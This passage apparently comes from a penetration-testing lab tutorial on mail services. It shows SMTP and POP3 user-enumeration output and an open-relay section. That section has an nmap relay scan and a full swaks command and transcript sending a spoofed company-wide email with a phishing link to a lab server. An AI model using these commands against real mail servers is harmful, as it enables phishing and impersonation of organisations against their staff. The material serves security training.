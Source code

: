 ```shell-session

250 2.1.5 john... Recipient ok
```
#### USER Command
```shell-session
USER julio

-ERR


USER john

+OK
```
#### Open Relay
From an attacker's standpoint, we can abuse this for phishing by sending emails as non-existing users or spoofing someone else's email. For example, imagine we are targeting an enterprise with an open relay mail server, and we identify they use a specific email address to send notifications to their employees. We can send a similar email using the same address and add our phishing link with this information. With the `nmap smtp-open-relay` script, we can identify if an SMTP port allows an open relay.
```shell-session
# nmap -p25 -Pn --script smtp-open-relay 10.10.11.213
```
```shell-session
# swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213

=== Trying 10.10.11.213:25...
=== Connected to 10.10.11.213.
<-  220 mail.localdomain SMTP Mailer ready
 -> EHLO parrot
<-  250-mail.localdomain
<-  250-SIZE 33554432
<-  250-8BITMIME
<-  250-STARTTLS
<-  250-AUTH LOGIN PLAIN CRAM-MD5 CRAM-SHA1
<-  250 HELP
 -> MAIL FROM:<notifications@inlanefreight.com>
<-  250 OK
 -> RCPT TO:<employees@inlanefreight.com>
<-  250 OK
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Thu, 29 Oct 2020 01:36:06 -0400
 -> To: employees@inlanefreight.com
 -> From: notifications@inlanefreight.com
 -> Subject: Company Notification
 -> Message-Id: <20201029013606.775675@parrot>
 -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
 -> 
 -> Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/
 -> 
 -> 
 -> .
<-  250 OK
 -> QUIT
<-  221 Bye
=== Connection closed with remote host.
```

